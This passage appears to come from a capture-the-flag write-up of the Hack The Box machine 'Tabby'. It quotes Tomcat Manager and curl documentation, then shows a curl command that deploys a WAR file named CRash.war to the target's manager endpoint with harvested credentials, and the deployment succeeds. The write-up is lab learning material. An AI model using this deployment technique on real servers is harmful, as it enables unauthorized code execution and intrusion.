 ```text
    By default the Host Manager is only accessible from a browser running on the
    same machine as Tomcat. If you wish to modify this restriction, you'll need
    to edit the Host Manager's <tt>context.xml</tt> file.
```

upload did not work as in the Windows example, kept reading in the documentation, and found a way to deploy directly, without adding first

[http://10.10.10.194:8080/docs/manager-howto.html\#Deploy\_A\_New\_Application\_Archive\_\(WAR\)\_Remotely](http://10.10.10.194:8080/docs/manager-howto.html#Deploy_A_New_Application_Archive_%28WAR%29_Remotely)

![](../../.gitbook/assets/7-manager-deploy.png)

In order to send the file

```text
-T, --upload-file <file>
              This transfers the specified local file to the remote URL. If there is no file part  in
              the  specified  URL,  curl  will  append  the local file name. NOTE that you must use a
              trailing / on the last directory to really prove to Curl that there is no file name  or
              curl will think that your last directory name is the remote file name to use. That will
              most likely cause the upload operation to fail. If this is used on an  HTTP(S)  server,
              the PUT command will be used.
```

I checked the man page for the correct options and found `-T`

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ curl -u 'tomcat:$3cureP4s5w0rd123!' -T CRash.war http://megahosting.htb:8080/manager/text/deploy?path=/CRash   
OK - Deployed application at context path [/CRash]
```
